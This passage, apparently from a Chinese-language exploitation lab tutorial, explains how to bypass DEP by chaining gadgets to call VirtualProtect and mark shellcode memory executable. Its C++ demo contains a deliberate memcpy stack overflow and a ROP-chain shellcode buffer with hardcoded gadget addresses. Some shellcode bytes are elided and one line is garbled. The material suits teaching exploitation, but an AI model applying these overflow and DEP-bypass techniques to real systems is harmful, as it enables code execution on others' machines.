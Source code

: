 如果我们能够按照如下参数布置好栈帧的话就可以将 shellcode 所在内存区域设置为可执行模式。

```
BOOL VirtualProtect(
    shellcode 所在内存空间起始地址,
    shellcode 大小,
    0x40,
    某个可写地址
);
```

这里有两个问题需要注意。
- （1）参数中包含 0x00，strcpy 在复制字符串的时候会被截断，所以我们不能攻击 strcpy 函数，本次实验中我们改为攻击 memcpy 函数。
- （2）对 shellcode 所在内存空间起始地址的确定，不同机器之间 shellcode 在内存中的位置可能会有变化，本次实验中我们采用**一种巧妙的栈帧构造方法动态确定 shellcode 所在内存空间起始地址**。
- 上面代码中的0x40 代表一种内存页保护方式，具体可参考：https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants


我们将用如下代码演示如何布置栈帧，并利用 VirtualProtect 函数将 shellcode 所在内存区域设置为可执行状态，进而执行 shellcode。

```c++
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
char shellcode[]=
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
    "……"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7C" //pop eax retn
    "\x0A\x1A\xBF\x7C" //pop pop pop retn
    "\xBA\xD9\xBB\x7C" //修正 EBP
    "\x8B\x17\x84\x7C" //RETN
    "\x90\x90\x90\x90"
    "\xBF\x7D\xC9\x77" //push esp jmp eax
    "\xFF\x00\x00\x00" //修改内存大小
    "\x40\x00\x00\x00" //可读可写可执行内存属性代码
    "\xBF\x7D\xC9\x77" //push esp jmp eax
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xE8\x1F\x80\x7C" //修改内存属性
    "\x90\x90\x90\x90"
    "\xA4\xDE\xA2\x7C" //jmp esp
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "……"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
    ;
void test()
{
    char str[176];
    memcpy(str,shellcode,420);
}
int main()
{
    HINSTANCEh Inst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```
